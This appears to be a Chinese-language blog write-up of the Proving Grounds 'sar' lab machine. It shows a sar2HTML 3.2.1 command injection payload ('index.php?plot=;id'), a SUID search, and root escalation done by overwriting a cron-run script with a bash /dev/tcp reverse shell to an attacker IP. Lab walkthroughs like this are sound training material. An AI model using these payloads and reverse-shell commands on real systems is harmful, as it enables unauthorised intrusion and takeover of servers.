 ```yaml
---
layout: post
title: "[PGPlay] sar 靶機 Write-up"
date: 2024-06-03 23:10:02 +0800
categories: [offsec]
tags: [offsec]
---
```

本系列為 Proving Grounds Play Free 靶機

Port Scan 後發現 含有80 Port

進入系統後發現 含有一個預設頁面

![](../static/img/2024-06-03/Untitled.png)

查看 robots.txt 發現有個 `sar2HTML`

![](../static/img/2024-06-03/Untitled%201.png)

## 讀取 sar2HTML頁面

![](../static/img/2024-06-03/Untitled%202.png)

左上角有 sar2HTML 版本字樣 丟google 就有Exploit 可參考

sar2HTML V3.2.1  含有 Command Injection 漏洞

payload為 `index.php?plot=;id`

![](../static/img/2024-06-03/Untitled%203.png)

發現可 Command Injection 直接 revshell

![](../static/img/2024-06-03/Untitled%204.png)

接著 cat local.txt

![](../static/img/2024-06-03/Untitled%205.png)

## 提權

提權部分卡了許久

查看 uname -a 無發現可利用 Exploit

![](../static/img/2024-06-03/Untitled%206.png)

使用 `find / -perm -4000`

`find / -perm -04000 -type f -ls`

發現 /bin/ping 有超級使用者

但無 gcc 功能

![](../static/img/2024-06-03/Untitled%207.png)

最後去看 Write up  發現使用 `Linpeas.sh` 去執行

會出現 `/var/www/finally.sh` 權限為root, 使用 crontab 每五分鐘執行一次

![](../static/img/2024-06-03/Untitled%208.png)

查看 `finally.sh` 發現內容為執行 `write.sh`

`write.sh` 擁有者為 www-data 可進行編輯

輸入反連指令 改寫並覆蓋內容

`echo '**bash** -i >& /dev/tcp/**192.168.45.206**/**5555** 0>&1' > write.sh`

開啟 nc 等待五分鐘後  取得 root 權限 讀取`proof.txt`

![](../static/img/2024-06-03/Untitled%209.png)